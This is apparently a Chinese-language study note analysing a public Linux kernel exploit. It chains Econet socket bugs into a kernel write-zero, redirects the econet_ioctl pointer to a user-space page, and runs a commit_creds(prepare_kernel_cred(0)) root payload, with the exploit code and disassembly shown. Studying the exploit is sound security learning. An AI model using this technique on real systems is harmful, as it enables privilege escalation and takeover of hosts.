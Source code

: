 ## Exploit
至此，可以把上述三个漏洞组合一下来escalate privilege了。
1. Create a thread
2. Set its clear_child_tid to an address in kernel memory
3. Thread invokes splice on an Econet socket; crashes
4. Kernel writes 0 to our chosen address
5. We exploit that corruption somehow

因为是个内核任意地址写零漏洞，所以我们的一般思路是把某个结构体的函数指针overwite为0，然后在用户空间mmap zero page，最后通过系统调用触发该函数的执行。但是有个前面提到的关键问题：无法mmap page zero！看完exp感觉又学到了一个套路。
```c
target = econet_ops + 10 * sizeof(void *) - OFFSET;

/* Clear the higher bits */
landing = econet_ioctl << SHIFT >> SHIFT;

payload = mmap((void *)(landing & ~0xfff), 2 * 4096,
                 PROT_READ | PROT_WRITE | PROT_EXEC,
                 MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
```
我们可以把函数指针的高位写零从而导致其指向用户空间！骚操作！当把econet_ops里面的econet_ioctl函数指针高位写零后，通过ioctl系统调用触发执行payload即可。
exp中还有个骚操作:
```c
static int __attribute__((regparm(3)))
getroot(void * file, void * vma)
{

    commit_creds(prepare_kernel_cred(0));
    return -1;

}

/* Why do I do this?  Because on x86-64, the address of
 * commit_creds and prepare_kernel_cred are loaded relative
 * to rip, which means I can't just copy the above payload
 * into my landing area. */
void __attribute__((regparm(3)))
trampoline()
{

#ifdef __x86_64__
    asm("mov $getroot, %rax; call *%rax;");
#else
    asm("mov $getroot, %eax; call *%eax;");
#endif

}
```
不是很懂这个操作，特地去研究了一下！
```shell
/* on x86_64 */
0000000000400db4 <getroot>:
  400db4:	55                   	push   %rbp
  400db5:	48 89 e5             	mov    %rsp,%rbp
  400db8:	53                   	push   %rbx
  400db9:	48 83 ec 08          	sub    $0x8,%rsp
  400dbd:	48 8b 1d f4 12 20 00 	mov    0x2012f4(%rip),%rbx        # 6020b8 <commit_creds>
  400dc4:	48 8b 05 f5 12 20 00 	mov    0x2012f5(%rip),%rax        # 6020c0 <prepare_kernel_cred>
  400dcb:	bf 00 00 00 00       	mov    $0x0,%edi
  400dd0:	ff d0                	callq  *%rax
  400dd2:	48 89 c7             	mov    %rax,%rdi
  400dd5:	ff d3                	callq  *%rbx
  400dd7:	b8 ff ff ff ff       	mov    $0xffffffff,%eax
```